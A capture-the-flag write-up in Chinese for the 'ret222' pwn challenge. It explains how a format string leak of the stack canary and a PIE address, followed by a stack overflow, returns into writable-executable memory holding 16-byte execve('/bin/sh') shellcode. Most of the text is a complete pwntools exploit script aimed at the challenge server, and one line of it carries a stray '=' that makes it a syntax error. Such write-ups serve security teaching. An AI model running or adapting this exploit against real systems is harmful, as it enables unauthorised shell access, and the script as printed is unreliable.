 ## ret222
本題source code中可以明顯看到兩個弱點，一個是format string vulnerability，一個是stack buffer overflow，但本題的binary開啟了ALSR、PIE、NX、Full RELRO，且沒有提供libc，因此不能使用return2libc，binary內也沒有足夠的gadget能組成ROPchain。

題目很明顯的將`name & 0xFFF`開始0x1000 bytes的空間設為`PROT_EXEC | PROT_WRITE | PROT_READ`，因此可能要將shellcode放置在name中，但是name的大小只有16bytes，所以可能可以搭配一些ROP gadget來減少shellcode需要的大小。

接著問題就是要如何leak出name的位址，而PIE/ASLR設計上的弱點是.bss和.text的相對位址是固定的，因此可以先用format string leak出stack上__libc_csu_init的位址，以及canary的值，接著從__libc_csu_init算出name的位址。

shellcode的部份，我們可以藉由先將`'/bin/sh\x00'`放在payload中一併寫到stack，我們就可以將shellcode減少到16byte以內。

因此最後的流程是
1. 先將format string設定成包含要leak的位址的字串
2. 以printf leak出stack上`__libc_csu_init`的位址以及canary
3. 送出canary + &name + `'/bin/sh\x00'`的payload

```python
#!/usr/bin/env python
from pwn import *

context(arch='amd64')=

r = remote('csie.ctf.tw', 10122)

# 1. leak canary and __libc_csu_init
r.sendline('1')
r.sendline('%23$llx %24$llx')
r.sendline('2')
r.recvuntil('Name:')

canary, libc_csu_init = map(lambda addr: int(addr, 16),
                            r.recvuntil('*', drop=True).split())

# 2. compute name and generate then send the ROP payload
b = ELF('ret222')
name = libc_csu_init + (b.symbols[b'name'] - b.symbols[b'__libc_csu_init'])
payload = cyclic(136).encode()
payload += p64(canary)
payload += cyclic(8).encode()
payload += p64(name)
payload += p64(int.from_bytes(b'/bin/sh\x00', byteorder='little'))
r.sendline('3')
r.sendline(payload)

# 3. fill name with shellcode, then return to name
sc = """
    /* call execve('rsp', 0, 0) */
    xor rsi, rsi
    push (SYS_execve) /* 0x3b */
    pop rax
    mov rdi, rsp
    cdq /* rdx=0 */
    syscall
"""
r.sendline('1')
r.sendline(asm(sc))

r.sendline('4')
r.interactive()
```
